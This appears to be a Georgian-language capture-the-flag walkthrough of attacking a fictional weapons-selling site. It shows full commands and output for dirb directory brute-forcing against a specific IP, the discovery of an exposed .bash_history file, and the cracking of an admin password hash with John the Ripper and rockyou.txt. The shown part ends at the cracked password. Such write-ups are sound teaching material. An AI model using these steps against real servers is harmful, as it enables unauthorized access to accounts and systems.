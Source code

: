 ## კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ.
## თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

1. პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 ![index.php](.images/index.png)


2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 30 16:44:59 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.50/ ----
    + http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
    + http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
    ==> DIRECTORY: http://185.212.254.50/wp/                                       
                                                                                
    ---- Entering directory: http://185.212.254.50/wp/ ----
    ==> DIRECTORY: http://185.212.254.50/wp/wordpress/
    
    # აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
    # სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

    -----------------
    END_TIME: Sat May 30 17:08:25 2020
    DOWNLOADED: 202928 - FOUND: 16             
                                                            
    ```
    სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

3. dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

    გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):
    
    ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

4. [.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. აქ ჩვენთვის საინტერესო არის შემდეგი ხაზი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

    როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება. უამრავი ხელსაწყო არსებობს დაჰეშილი პაროლების აღსადგენათ, ყველაზე სწრაფი და ცნობილი hashcat არის, მაგრამ დღეს გამოვიყენებთ [John The Ripper](https://www.openwall.com/john/)-ს (ჩემი აზრით ყველაზე მარტივი გამოსაყენებელია).

    ```bash
    john <hash.txt> --wordlist=<pass.txt>

    hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
                ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
    pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
    ```

    * როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
    `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
    ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
    შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
    შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

    * გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

    ავაწყოთ და გავუშვათ ჩვენი ბრძანება
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    ```

    აუთფუთი:
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin123         (admin)
    1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

    `admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

    P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
    ```bash
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    No password hashes left to crack (see FAQ)
    ```
    `No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
    ```bash
    john --show Pentest/GunMarket/passwords 
    ```
    აუთფუთი:
    ```bash
    admin:admin123

    1 password hash cracked, 0 left
    ```



    